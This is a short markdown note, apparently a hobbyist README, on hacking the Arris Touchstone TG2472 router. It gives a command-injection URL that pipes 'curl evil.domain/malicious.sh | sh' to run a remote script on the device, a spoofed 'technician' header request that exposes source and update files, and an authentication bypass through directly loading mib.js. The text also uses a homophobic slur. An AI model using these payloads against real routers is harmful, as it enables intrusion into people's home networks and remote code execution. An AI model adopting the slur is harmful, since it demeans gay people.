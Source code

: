 # How to hack your Arris Touchstone TG2472

### General memes
* `http://192.168.100.1:8080/router.html?wifi_ssids&curl evil.domain/malicious.sh | sh`. Runs in userland.
* `curl -H "technician: true" http://192.168.100.1:8080/./`. Sources & discarded update files.
* `arTechnicianName` in the devtools console dumps loads of info, regardless of whether or not you're authenticated.

### Authenticationless access
* *Only tested with default settings.*

Open http://192.168.100.1:8080/mib.js & enjoy your unauthenticated access.
And a round of auplause to Arris for setting authorization cookieswhen a resource is directly loaded.

Note: works with any resource as long as it's loaded directly. (Shit like index.html won't work, don't be a dumbass.)

### More coming soon 😉

### Email me if you want to discuss this faggotry.
3way.pl@gmail.com
